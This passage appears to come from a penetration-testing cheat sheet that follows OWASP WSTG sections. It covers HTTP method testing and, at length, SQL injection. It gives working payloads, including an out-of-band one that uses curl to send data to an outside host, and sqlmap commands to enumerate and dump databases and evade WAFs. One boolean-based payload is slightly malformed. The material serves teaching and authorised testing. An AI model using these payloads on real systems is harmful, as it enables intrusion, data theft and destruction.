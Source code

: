 ❗❗❗ Test if login- or other forms accept POST-data also via GET. This would allow to attack the form via [CSRF](#465-testing-for-cross-site-request-forgery-wstg-sess-05)!

#### HTTP verbs/methods

 - GET
 - HEAD
 - POST
 - PUT
 - DELETE
 - CONNECT
 - OPTIONS
 - TRACE

❗❗❗ Try also: [HTTP method overriding](#http-method-overriding-with-x-http-method-header)

### 4.7.4 Testing for HTTP Parameter Pollution (WSTG-INPV-04)

❗❗❗MISSING❗❗❗

### 4.7.5 Testing for SQL Injection (WSTG-INPV-05)

**Types of SQLi:**

 - Basic SQLi - e.g. login bypass  
   `' OR 1=1 -- `
 - Error based - provoking error messages to get data  
   `'" BLA`
 - Union based - appending data (column count need to match, use `NULL` for additional dummy columns)  
   `' UNION SELECT id, username, password, NULL FROM users -- `
 - Boolean based - answering True/Flase questions based on output or no output  
   `' SUBSTRING((SELECT password FROM users WHERE username = 'admin'), 1, 1) = 'a' -- `
 - Time based - if you have no output, you can use the response time to answer True/False questions  
   `' AND IF(SUBSTRING((SELECT password FROM users WHERE username = 'admin'), 1, 1) = 'a', SLEEP(2), 0) -- `
 - Out-Of-Band (OOB) SQLi - using a external channel to receive data - e.g.: a webserver  
   `' UNION SELECT sys_eval(CONCAT('curl https://pentest-experts.com/oobsqli/?data=', @@version)) -- `
 - Second order SQLi - injected payloads in DB fields, later used in SQL queries  
   `SELECT name FROM users WHERE username = '[NOT-SANITIZED-USERNAME-VALUE-ADDED-HERE]'`  
   e.g. executed when browsing to the profile page.

You can change `--risk` to try riskier statements but some SQLi injection points like an `UPDATE` statement can overwrite all data in a table when combined with a `OR`-based payload (`--risk 3`). The setting `--risk 2` adds heavy time-based queries.

 - `sqlmap -r request.txt --level 5 --risk 3 -p vulnerable_field --random-agent --dbs`  
   Use captured request from ZAP / BurpSuite and use a random user agent string instrad of the sqlmap UA sting as many WAFs drop requests from sqlmap.
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --level 5 --risk 1 -p search --dbs`
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --level 5 --risk 1 -p search -D db_name --tables`
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --level 5 --risk 1 -p search -D db_name -T table_name --dump`
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/search/xxx*" --cookie="SID=123456ABC" --level 5 --risk 1 --dbs`  
   Explot the serach-value `xxx` in "nice" URLs - `*` can be used an marker in any field like cookies or GET-parameters, not only in "nice" URLs.
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --prefix "'" --suffix " -- "`  
   Specify suffix to start the SQLi and suffix to comment the left-overs out
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --technique U`  
   Specify query type - here UNION queries